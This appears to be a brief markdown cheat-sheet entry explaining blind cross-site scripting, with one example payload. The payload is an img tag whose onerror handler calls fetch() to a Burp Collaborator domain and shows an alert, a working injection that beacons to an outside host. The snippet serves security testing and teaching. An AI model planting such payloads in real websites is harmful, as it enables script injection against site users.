 # Blind Cross-Site Scripting

Blind cross-site scripting (XSS) attacks occur when an attacker is unable to directly see the results of their XSS payload on the targeted website, but can still confirm if the payload has executed successfully or not by observing the behavior of a third-party service, such as Burp Suite's Collaborator.

#### Basic Alert Payload:

```javascript
<img src='x' onerror='fetch("https://burp-collaborator.net"); alert("XSS");'>
```
